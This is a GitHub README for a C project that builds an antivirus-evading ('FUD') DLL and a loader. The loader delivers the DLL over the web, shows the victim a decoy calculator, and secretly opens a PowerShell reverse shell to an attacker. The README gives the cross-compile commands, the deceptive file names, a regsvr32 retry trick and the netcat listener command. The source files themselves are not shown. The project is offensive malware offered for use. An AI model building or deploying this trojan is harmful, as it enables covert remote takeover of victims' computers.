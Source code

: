 # DLLREVERSESHELL
<b>A CUSTOM CODED FUD DLL, CODED IN C , WHEN LOADED , VIA A DECOY WEB-DELIVERY MODULE( FIRING A DECOY PROGRAM), WILL GIVE A REVERSE SHELL (POWERSHELL) FROM THE VICTIM MACHINE TO THE ATTACKER CONSOLE , OVER LAN AND WAN.
</b>

The project comprises of:


<p><b>. A custom C header file, mingwdll.h </b></p>
<p><b>. The DLL C code mingw_dll.c </b></p>
<p><b>. The Loader file loader.c , that will invoke a web delivery of the DLL ,to the target machine, load the DLL in the runtime, producing the decoy program for the victim on the foreground, and spawning a connect back reverse shell (powershell) to the attacker, in the back ground </b></p>

<p><b><i> Phase 1 : </b></i></p>

Place the mingwdll.h and mingw_dll.c in the same folder and compile using :

<b>i686-w64-mingw32-gcc -Wall -shared mingw_dll.c -o calc_helper.dll -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc </b>

This will create the FUD DLL <b> calc_helper.dll </b>

File Description:
<b> root@nautilus:~/Desktop/c_code/dll_rsh# file calc_helper.dll
calc_helper.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
</b>

<p><b><i> Phase 2 : </b></i></p>
Compile the loader.c using <b> i686-w64-mingw32-gcc loader.c -o improved_calc.exe </b>
This will create the PE32 executable improved_calc.exe.

File Description:
<b>improved_calc.exe: PE32 executable (console) Intel 80386, for MS Windows </b>

When the file improved_calc.exe , it might initially throw a Dll load error, thus I have ensured that a second call to regsvr32 is made post a _sleep() function, to ensure the DLL load on runtime.

Post the DLL is loaded , it will fire the decoy , calc.exe and spawn a reverse shell, (netcat listener on port 8080 as defined in the header file { nc -lvp 8080 } ) 

Cheers

#Captain_Nemo

# DLLREVERSESHELL
